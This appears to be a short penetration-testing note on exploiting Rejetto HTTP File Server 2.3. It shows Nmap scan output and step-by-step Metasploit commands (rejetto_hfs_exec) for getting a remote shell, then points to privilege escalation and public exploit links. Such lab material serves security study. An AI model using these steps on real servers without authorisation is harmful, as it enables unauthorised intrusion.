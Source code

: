 ##### ***What is HFS?***
HFS (HTTP File Server) is an open source file system designed to run on a web server for publishing and sharing files. It operates at Layer 7.
##### ***Exploiting HFS***
###### **Metasploit exploit for Rejetto HTTP File Server HFS 2.3b over Windows XP SP3, Windows 7 SP1 and Windows 8**
Running a simple Nmap scan and it reveals that port 8080 is open running an HTTPD web server:
```
PORT     STATE SERVICE VERSION
8080/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

You can use metasploit to exploit the target web server and gain a shell:
```
msfconsole
msf > use exploit/windows/http/rejetto_hfs_exec
msf exploit(rejetto_hfs_exec) > show targets
    ...targets...
msf exploit(rejetto_hfs_exec) > set TARGET < target-id >
msf exploit(rejetto_hfs_exec) > show options
    ...show and set options...
msf exploit(rejetto_hfs_exec) > exploit
```

After getting a shell into the machine, we can try privilege escalation with [[Windows privilege escalation using PowerUp.ps1 script to check for misconfigurations]]
##### ***Resources***
[Metasploit RCE](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)
[ExploitDB Python RCE](https://www.exploit-db.com/exploits/39161)